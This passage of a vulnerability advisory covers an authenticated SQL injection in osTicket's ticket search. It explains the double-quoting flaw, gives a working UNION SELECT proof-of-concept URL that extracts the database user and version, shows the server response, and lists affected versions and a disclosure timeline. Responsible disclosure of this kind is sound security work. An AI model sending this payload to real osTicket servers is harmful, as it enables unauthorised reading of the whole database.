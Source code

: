 that is, it calls the default MySQL “real\_escape\_string”, but then, as the $quote parameter is set to “true”, it actually surrounds the outcoming value with single quotes.
The final sanitization actually causes the issue mentioned before, as it is adding single quotes to an already quoted string.

**III. PoC – PROOF OF CONCEPT**

A proof of concept is actually pretty complex to report here, due to the length of the query that is normally performed by the web application.
However, a GET request to:

`https://host/tickets.php?a=search&keywords=test+':1&topic_id=+IN+NATURAL+LANGUAGE+MODE)+AS+relevance+FROM+ost__search+Z1+WHERE+1%3d1+ORDER+BY+relevance+DESC)+Z1+LEFT+JOIN+ost_thread_entry+Z2+ON+(Z1.object_id+%3d+Z2.id)+LEFT+JOIN+ost_thread+Z3+ON+(Z2.thread_id+%3d+Z3.id)+LEFT+JOIN+ost_ticket+Z5+ON+(Z1.object_id+%3d+Z5.ticket_id)+LEFT+JOIN+ost_user+Z6+ON+(Z6.id+%3d+Z1.object_id)+LEFT+JOIN+ost_organization+Z7+ON+(Z7.id+%3d+Z1.object_id+AND+Z7.id+%3d+Z6.org_id)+LEFT+JOIN+ost_ticket+Z8+ON+(Z8.user_id+%3d+Z6.id))+Z1+UNION+SELECT+user(),@@version,@@version,@@version,@@version,@@version,@@version,@@version,@@version,@@version,@@version,@@version,@@version,@@version,@@version%23`

is enough to prove that we can successfully extrapolate the mysql user and the mysql version from the server response, whose snippet is shown below:

```
<tbody>
	<tr id="user_osticket@localhost">
		<td><a class="Icon 8.0.23Ticket" title="8.0.23" href="tickets.php?id=user_osticket@localhost">8.0.23</a></td>
		<td>10/09/21</td>
		<td>8.0.23</td>
		<td><div style="max-height: 1.2em; max-width: 320px;" class="link truncate" href="tickets.php?id=user_osticket@localhost"><i class="icon-group"></i> 8.0.23</div></td>
		<td><span class="truncate">8.0.23</span></td>
	</tr>
</tbody>
```

**IV. BUSINESS IMPACT**

With the mentioned vulnerability, an authenticated attacker could potentially exfiltrate the entire content of the database.

**V. SYSTEMS AFFECTED**

Currently we have no detailed information on the system versions affected. We evidenced the vulnerability in osTicket version 1.15.2, however, the manual code review has been done on the latest GitHub source code, which may suggest that the issue is present up to the latest version as well.

**VI. VULNERABILITY HISTORY**

September 14th, 2021: Vendor notification

October 6th, 2021: Vendor acknowledged the vulnerability

February 26th, 2022: Private disclosure

March 15th, 2022: CVE received

July 21st, 2022: Request for status update
